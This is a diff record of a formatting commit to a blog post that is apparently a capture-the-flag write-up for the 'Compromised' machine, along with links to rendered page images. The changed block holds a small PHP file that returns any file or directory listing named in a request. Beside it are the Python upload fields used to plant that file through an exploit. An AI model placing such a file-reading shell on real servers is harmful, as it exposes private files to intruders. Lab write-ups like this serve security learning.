

Before and after one commit to darksec1337/darksec1337.github.io, a Jekyll site: the page built from _posts/2021-01-23-Compromised.md, in a window 1280 px wide and 900 px high, scrolled down 7036 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
Update 2021-01-23-Compromised.md

````diff
--- a/_posts/2021-01-23-Compromised.md
+++ b/_posts/2021-01-23-Compromised.md
@@ -259,7 +259,8 @@ disable_functions can be bypassed pretty easily, but that’s not the intended w
 ### Read File / Dir List PHP
 I modified the exploit again to upload a PHP file that allows me to get files and directories:
 
-```sploit = """<?php
+```bash
+sploit =<?php
 if (isset($_REQUEST['file'])) {
     echo file_get_contents($_REQUEST['file']);
 }
@@ -269,12 +270,12 @@ if (isset($_REQUEST['dir'])) {
 }
 
 ?>
-"""
 files = {
         'vqmod': (rand + ".php", sploit, "application/xml"),
         'token':one,
         'upload':(None,"Upload")
-    }```
+    }
+```
 
 After running that, I can list a directory:
 
````
